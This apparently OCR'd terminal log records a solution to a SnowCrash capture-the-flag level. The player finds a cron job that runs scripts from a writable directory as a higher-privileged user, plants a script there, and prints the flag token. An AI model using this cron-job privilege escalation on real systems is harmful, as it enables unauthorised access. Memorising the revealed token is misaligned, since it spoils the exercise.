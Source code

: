 level05@SnowCrash:~$ cat /rofs/usr/lib/byobu/mail
#!/bin/sh -e
#
#    mail: notify the user if they have system mail
#
#    Copyright (C) 2009 Canonical Ltd.
#    Copyright (C) 2011 Dustin Kirkland
#
#    Authors: Dustin Kirkland <kirkland@ubuntu.com>
#
#    This program is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, version 3 of the License.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with this program.  If not, see <http://www.gnu.org/licenses/>.

MAILFILE="/var/spool/mail/$USER"

__mail_detail() {
        [ -s "$MAILFILE" ] && ls -alF "$MAILFILE" 2>&1
}

__mail() {
        if [ -s "$MAILFILE" ]; then
                 color b; printf "%s" "$ICON_MAIL"; color --
        fi
}

# vi: syntax=sh ts=4 noexpandtab
level05@SnowCrash:~$ find / -name cron 2>/dev/null
/etc/default/cron
/etc/init.d/cron
/etc/pam.d/cron
/usr/sbin/cron
/usr/share/bug/cron
/usr/share/doc/cron
/var/spool/cron
/rofs/etc/default/cron
/rofs/etc/init.d/cron
/rofs/etc/pam.d/cron
/rofs/usr/sbin/cron
/rofs/usr/share/bug/cron
/rofs/usr/share/doc/cron
/rofs/var/spool/cron
level05@SnowCrash:~$ find / -name cron -type f 2>/dev/null
/etc/default/cron
/etc/pam.d/cron
/usr/sbin/cron
/rofs/etc/default/cron
/rofs/etc/pam.d/cron
/rofs/usr/sbin/cron
level05@SnowCrash:~$ cat /etc/default/cron
# This file has been deprecated. Please add custom options for cron to
# /etc/init/cron.conf and/or /etc/init/cron.override directly. See
# the init(5) man page for more information.
level05@SnowCrash:~$ cat /etc/pam.d/cron
# The PAM configuration file for the cron daemon

@include common-auth

# Read environment variables from pam_env's default files, /etc/environment
# and /etc/security/pam_env.conf.
session       required   pam_env.so

# In addition, read system locale information
session       required   pam_env.so envfile=/etc/default/locale

@include common-account
@include common-session-noninteractive 

# Sets up user limits, please define limits for cron tasks
# through /etc/security/limits.conf
session    required   pam_limits.so

level05@SnowCrash:~$ ls
level05@SnowCrash:~$ find / -name mail 2>/dev/null
/usr/lib/byobu/mail
/var/mail
/var/spool/mail
/rofs/usr/lib/byobu/mail
/rofs/var/mail
/rofs/var/spool/mail
level05@SnowCrash:~$ cd /usr/lib/byobu/mail
-bash: cd: /usr/lib/byobu/mail: Not a directory
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls
level05
level05@SnowCrash:/var/mail$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
level05@SnowCrash:/var/mail$ echo '#!/bin/sh\n/bin/sh getflag >> /tmp/outfile' >> /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ chmod + /opt/openarenaserver/script.sh 
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:/var/mail$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:/var/mail$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:/var/mail$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:/var/mail$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:/var/mail$ ls /opt/openarenaserver/
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ echo '#!/bin/sh' > /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ echo 'getflag >> /tmp/outfile' >> /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ cat /opt/openarenaserver/script.sh
getflag >> /tmp/outfile
level05@SnowCrash:/var/mail$ echo '#!/bin/sh' > /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ echo 'getflag >> /tmp/outfile' >> /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ cat /opt/openarenaserver/script.sh#!/bin/sh
getflag >> /tmp/outfile
level05@SnowCrash:/var/mail$ chmod +x /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
cat: /tmp/outfile: No such file or directory
level05@SnowCrash:/var/mail$ cat /opt/openarenaserver/script.sh
#!/bin/sh
getflag >> /tmp/outfile
level05@SnowCrash:/var/mail$ cat /opt/openarenaserver/script.sh
#!/bin/sh
getflag >> /tmp/outfile
level05@SnowCrash:/var/mail$ cat /opt/openarenaserver/script.sh
#!/bin/sh
getflag >> /tmp/outfile
level05@SnowCrash:/var/mail$ cat /opt/openarenaserver/script.sh
cat: /opt/openarenaserver/script.sh: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/outfile
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/var/mail$ 
